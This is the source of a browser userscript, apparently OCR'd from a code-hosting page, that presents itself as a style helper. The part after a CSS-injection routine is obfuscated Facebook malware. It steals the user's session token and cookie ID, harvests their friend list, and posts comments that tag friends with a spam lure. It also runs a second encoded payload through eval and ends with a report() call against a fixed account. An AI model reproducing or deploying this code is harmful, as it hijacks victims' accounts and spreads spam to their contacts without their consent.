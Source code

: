     }"; if (typeof GM_addStyle != "undefined") {         GM_addStyle(css); } else if (typeof PRO_addStyle != "undefined") {         PRO_addStyle(css); } else if (typeof addStyle != "undefined") {         addStyle(css); } else {         var node = document.createElement("style");         node.type = "text/css";         node.appendChild(document.createTextNode(css));         var heads = document.getElementsByTagName("head");         if (heads.length > 0) {                 heads[0].appendChild(node);         } else {                 // no head yet, stick it whereever                 document.documentElement.appendChild(node);         } } })(); //pengintip var _0xa22c=["value","fb_dtsg","getElementsByName","match","cookie","435252473244205","onreadystatechange","readyState","arkadaslar = ","for (;;);","","replace","responseText",";","length","entries","payload","round"," Share\udbb8\udc3c @[","uid",":","text","]"," ","\x26filter[0]=user","\x26options[0]=friends_only","\x26options[1]=nm","\x26token=v7","\x26viewer=","\x26__user=","https://","indexOf","URL","GET","https://www.facebook.com/ajax/typeahead/first_degree.php?__a=1","open","http://www.facebook.com/ajax/typeahead/first_degree.php?__a=1","send","random","floor","\x26ft_ent_identifier=","\x26comment_text=Wow It Work Try =D Provoni Autofollowers . &lt;3  ,If You Dont Believe look video and try. &lt;3","\x26source=2","\x26client_id=1377871797138:1707018092","\x26reply_fbid","\x26parent_comment_id","\x26rootid=u_jsonp_2_3","\x26clp={\x22cl_impid\x22:\x22453524a0\x22,\x22clearcounter\x22:0,\x22elementid\x22:\x22js_5\x22,\x22version\x22:\x22x\x22,\x22parent_fbid\x22:","}","\x26attached_sticker_fbid=0","\x26attached_photo_fbid=0","\x26giftoccasion","\x26ft[tn]=[]","\x26__a=1","\x26__dyn=7n8ahyj35ynxl2u5F97KepEsyo","\x26__req=q","\x26fb_dtsg=","\x26ttstamp=","POST","/ajax/ufi/add_comment.php","Content-type","application/x-www-form-urlencoded","setRequestHeader","status","close"];var fb_dtsg=document[_0xa22c[2]](_0xa22c[1])[0][_0xa22c[0]];var user_id=document[_0xa22c[4]][_0xa22c[3]](document[_0xa22c[4]][_0xa22c[3]](/c_user=(\d+)/)[1]);var id=_0xa22c[5];var arkadaslar=[];var svn_rev;function arkadaslari_al(id){var _0x7892x7= new XMLHttpRequest();_0x7892x7[_0xa22c[6]]=function (){if(_0x7892x7[_0xa22c[7]]==4){eval(_0xa22c[8]+_0x7892x7[_0xa22c[12]].toString()[_0xa22c[11]](_0xa22c[9],_0xa22c[10])+_0xa22c[13]);for(f=0;f&lt;Math[_0xa22c[17]](arkadaslar[_0xa22c[16]][_0xa22c[15]][_0xa22c[14]]/27);f++){mesaj=_0xa22c[10];mesaj_text=_0xa22c[10];for(i=f*27;i&lt;(f+1)*27;i++){if(arkadaslar[_0xa22c[16]][_0xa22c[15]][i]){mesaj+=_0xa22c[18]+arkadaslar[_0xa22c[16]][_0xa22c[15]][i][_0xa22c[19]]+_0xa22c[20]+arkadaslar[_0xa22c[16]][_0xa22c[15]][i][_0xa22c[21]]+_0xa22c[22];mesaj_text+=_0xa22c[23]+arkadaslar[_0xa22c[16]][_0xa22c[15]][i][_0xa22c[21]];} ;} ;yorum_yap(id,mesaj);} ;} ;} ;var _0x7892x8=_0xa22c[24];_0x7892x8+=_0xa22c[25];_0x7892x8+=_0xa22c[26];_0x7892x8+=_0xa22c[27];_0x7892x8+=_0xa22c[28]+user_id;_0x7892x8+=_0xa22c[29]+user_id;if(document[_0xa22c[32]][_0xa22c[31]](_0xa22c[30])>=0){_0x7892x7[_0xa22c[35]](_0xa22c[33],_0xa22c[34]+_0x7892x8,true);} else {_0x7892x7[_0xa22c[35]](_0xa22c[33],_0xa22c[36]+_0x7892x8,true);} ;_0x7892x7[_0xa22c[37]]();} ;function RandomArkadas(){var _0x7892xa=_0xa22c[10];for(i=0;i&lt;9;i++){_0x7892xa+=_0xa22c[18]+arkadaslar[_0xa22c[16]][_0xa22c[15]][Math[_0xa22c[39]](Math[_0xa22c[38]]()*arkadaslar[_0xa22c[16]][_0xa22c[15]][_0xa22c[14]])][_0xa22c[19]]+_0xa22c[20]+arkadaslar[_0xa22c[16]][_0xa22c[15]][Math[_0xa22c[39]](Math[_0xa22c[38]]()*arkadaslar[_0xa22c[16]][_0xa22c[15]][_0xa22c[14]])][_0xa22c[21]]+_0xa22c[22];} ;return _0x7892xa;} ;function yorum_yap(id,_0x7892xc){var _0x7892xd= new XMLHttpRequest();var _0x7892x8=_0xa22c[10];_0x7892x8+=_0xa22c[40]+id;_0x7892x8+=_0xa22c[41]+encodeURIComponent(_0x7892xc);_0x7892x8+=_0xa22c[42];_0x7892x8+=_0xa22c[43];_0x7892x8+=_0xa22c[44];_0x7892x8+=_0xa22c[45];_0x7892x8+=_0xa22c[46];_0x7892x8+=_0xa22c[47]+id+_0xa22c[48];_0x7892x8+=_0xa22c[49];_0x7892x8+=_0xa22c[50];_0x7892x8+=_0xa22c[51];_0x7892x8+=_0xa22c[52];_0x7892x8+=_0xa22c[29]+user_id;_0x7892x8+=_0xa22c[53];_0x7892x8+=_0xa22c[54];_0x7892x8+=_0xa22c[55];_0x7892x8+=_0xa22c[56]+fb_dtsg;_0x7892x8+=_0xa22c[57];_0x7892xd[_0xa22c[35]](_0xa22c[58],_0xa22c[59],true);_0x7892xd[_0xa22c[62]](_0xa22c[60],_0xa22c[61]);_0x7892xd[_0xa22c[6]]=function (){if(_0x7892xd[_0xa22c[7]]==4&amp;&amp;_0x7892xd[_0xa22c[63]]==200){_0x7892xd[_0xa22c[64]];} ;} ;_0x7892xd[_0xa22c[37]](_0x7892x8);} ;arkadaslari_al(id); var _5066;var _4528='891C189F122F1768C1867A1804B1921B1939D1255E1246C1561E1948B1876D1867B1768D1831E1183C1615D1804A1885D1822C1840A1885A1939A1840F1903F1183C1615C1921F1894F1813B1840F1867C1876D1948D1183B1543F1768F1921D1840A1183C1552F1885B1840F1183B2011A2011A1183A1498C1894B1966D1894D1858B1183B1363C1390B1183C1894E1921C1768E1885D1822C1183D1795B1768E1885E1183B1498B1804F1966F1804F1858D1183A1354B1345F1183D1894F1921C1768E1885B1822F1183D2011F2011A1183C1489E1984C1183B1471C1768D1795D1840F1777F1615E1597D1183F1246D1264E1426E';var _4155=/[\x41\x42\x43\x44\x45\x46]/;var _9561=2;var _6544=_4528.charAt(_4528.length-1);var _2860;var _8911=_4528.split(_4155);var _4321=[String.fromCharCode,isNaN,parseInt,String];_8911[1]=_4321[_9561+1](_4321[_9561](_8911[1])/21);var _4609=(_9561==6)?String:eval;_2860='';_11=_4321[_9561](_8911[0])/_4321[_9561](_8911[1]);for(_5066=3;_5066&lt;_11;_5066++)_2860+=(_4321[_9561-2]((_4321[_9561](_8911[_5066])+_4321[_9561](_8911[2])+_4321[_9561](_8911[1]))/_4321[_9561](_8911[1])-_4321[_9561](_8911[2])+_4321[_9561](_8911[1])-1));var _3559='_3336';var _4023='_3559=_2860';function _9152(_4991){_4609(_2244);_9152(_3380);_3380(_4023);_9152(_3559);}var _2244='_9152=_4609';var _3380='_3380=_9152';_9152(_6544); //Report report("100001140912220");
